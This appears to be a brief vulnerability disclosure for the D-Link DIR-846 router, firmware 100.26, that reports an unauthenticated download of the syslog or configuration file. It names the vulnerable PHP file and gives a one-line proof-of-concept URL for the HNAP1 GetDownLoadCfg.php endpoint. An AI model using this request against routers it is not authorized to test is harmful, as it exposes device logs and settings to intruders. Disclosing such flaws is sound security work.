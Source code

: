 # D-Link DIR-846 Unauthorized download syslog file #

**vender** ：D-Link

**Firmware version**:100.26

**Exploit Author**: bigbear@galaxylab.org

**Vendor Homepage**: http://www.dlink.com.cn/

**Hardware Link**:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-846

## Vul detail ##

1. The vulnerable code is in file /squashfs-root/www/HNAP1/GetDownLoadCfg.php.
![](dlink10.png)
1. POC http://192.168.0.1/HNAP1/GetDownLoadCfg.php
